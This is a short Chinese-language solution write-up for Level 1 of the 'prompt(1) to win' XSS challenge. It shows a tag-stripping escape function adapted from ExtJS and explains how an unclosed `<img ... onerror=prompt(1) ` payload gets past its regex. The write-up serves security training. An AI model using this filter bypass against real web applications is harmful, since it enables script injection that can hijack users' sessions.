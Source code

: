 ## [[prompt(1) to win](http://prompt.ml)] [[Level 1 - tags stripping](http://prompt.ml/1)] [[解题报告](https://exp-blog.com/safe/ctf/prompt/level-1-tags-stripping/)]

------

## 题目

```javascript
function escape(input) {
    // tags stripping mechanism from ExtJS library
    // Ext.util.Format.stripTags
    var stripTagsRE = /<\/?[^>]+>/gi;
    input = input.replace(stripTagsRE, '');

    return '<article>' + input + '</article>';
}
```

------

## 解题报告

注意观察正则表达式，它会把所有匹配 `<tag>` 或 `</tag>` 的标签全部剥离。

那么不构造完整的 tag 、仅通过属性注入就可以绕过了，如这样的 payload ：

`<img src=0 onerror=prompt(1) ` （**注意末尾有一个空格**）

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/prompt/Level%2001%20-%20tags%20stripping/imgs/01.png)

------

## 版权声明

　[![Copyright (C) EXP,2016](https://img.shields.io/badge/Copyright%20(C)-EXP%202016-blue.svg)](http://exp-blog.com)　[![License: GPL v3](https://img.shields.io/badge/License-GPL%20v3-blue.svg)](https://www.gnu.org/licenses/gpl-3.0)
  

- Site: [http://exp-blog.com](http://exp-blog.com) 
- Mail: <a href="mailto:289065406@qq.com?subject=[EXP's Github]%20Your%20Question%20（请写下您的疑问）&amp;body=What%20can%20I%20help%20you?%20（需要我提供什么帮助吗？）">289065406@qq.com</a>


------
